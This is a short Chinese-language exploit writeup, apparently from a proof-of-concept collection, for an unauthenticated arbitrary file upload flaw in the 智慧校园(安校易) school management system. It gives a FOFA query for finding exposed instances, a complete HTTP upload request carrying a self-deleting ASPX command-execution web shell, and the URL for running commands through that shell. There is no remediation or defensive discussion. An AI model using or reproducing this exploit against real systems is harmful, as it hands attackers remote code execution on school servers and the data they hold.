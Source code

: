 ## 智慧校园(安校易)管理系统FileUpAd.aspx任意文件上传漏洞

智慧校园(安校易)管理系统  FileUpAd.aspx 接口处存在任意文件上传漏洞，未经身份验证的攻击者通过漏洞上传恶意后门文件，执行任意代码，从而获取到服务器权限。

## fofa

```yaml
title="智慧综合管理平台登入"
```

## poc

```java
POST /Module/FileUpPage/FileUpAd.aspx?file_tmid=upload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2,
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=----21909179191068471382830692394
Connection: close
 
------21909179191068471382830692394
Content-Disposition: form-data; name="File"; filename="asd.aspx"
Content-Type: image/jpeg
 
<%@ Page Language="Jscript" validateRequest="false" %><%var c=new System.Diagnostics.ProcessStartInfo("cmd");var e=new System.Diagnostics.Process();var out:System.IO.StreamReader,EI:System.IO.StreamReader;c.UseShellExecute=false;c.RedirectStandardOutput=true;c.RedirectStandardError=true;e.StartInfo=c;c.Arguments="/c " + Request.Item["cmd"];e.Start();out=e.StandardOutput;EI=e.StandardError;e.Close();Response.Write(out.ReadToEnd() + EI.ReadToEnd());System.IO.File.Delete(Request.PhysicalPath);Response.End();%>
------21909179191068471382830692394--
```

文件路径`http://ip/imgnews/imgad/000000/upload.aspx?cmd=whoami`